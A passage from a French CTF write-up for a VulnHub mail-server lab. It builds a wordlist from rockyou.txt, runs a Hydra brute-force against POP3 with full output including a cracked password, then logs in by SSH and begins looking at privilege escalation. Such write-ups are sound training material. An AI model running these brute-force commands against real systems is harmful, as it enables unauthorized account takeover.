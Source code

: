 ```bash
The boss has already informed me about you and that you need help accessing the server.
Sorry, I forgot my password, but I remember the password was simple.
.
QUIT
+OK Logging out.
```

Pauvre bob, allez on va l'aider à retrouver son mot de passe. Ca aurait pu être très long de bruteforcer le pop3 ou le ssh, heureusement un indice a été ajouté sur la page VulnHub du CTF :

> Hints: 'cat rockyou.txt | grep bobby > wordlist' for generating wordlist.

On s'exécute et on lance notre attaque :

```bash
$ hydra -l bob -P pass.txt -e nsr pop3://192.168.56.67/CLEAR
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-29 22:49:08
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 2456 login tries (l:1/p:2456), ~154 tries per task
[DATA] attacking pop3://192.168.56.67:110/CLEAR
[STATUS] 81.00 tries/min, 81 tries in 00:01h, 2375 to do in 00:30h, 16 active
[STATUS] 64.33 tries/min, 193 tries in 00:03h, 2263 to do in 00:36h, 16 active
[STATUS] 59.57 tries/min, 417 tries in 00:07h, 2039 to do in 00:35h, 16 active
[110][pop3] host: 192.168.56.67   login: bob   password: bobby1985
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-29 22:58:46
```

L'URL donnée à `Hydra` force le programme à utiliser une authentification en clair (sans encodage base64 ni quelque chose de plus poussé). Ca a tout de même pris près de 10 minutes !

## Sudo au carré

L'utilisateur n'a pas d'emails mais bonne nouvelle, le mot de passe fonctionne aussi pour SSH :

```bash
bob@MailServer:~$ cat todo 
1. Install postfix and dovecot
2. Write a letter to the penetration tester about the server.
3. Write a script to check the server.
4. Create my2user to backup important data.(I think for security reasons I will back up important data with the help of another user)
```

Effectivement il y a un user `my2user`. bob aurait-il mené à bien toutes ses taches ?

`uid=1001(my2user) gid=1001(my2user) groups=1001(my2user)`

Ca semble être le cas car on retrouve un script à lui pour "checker" le serveur :
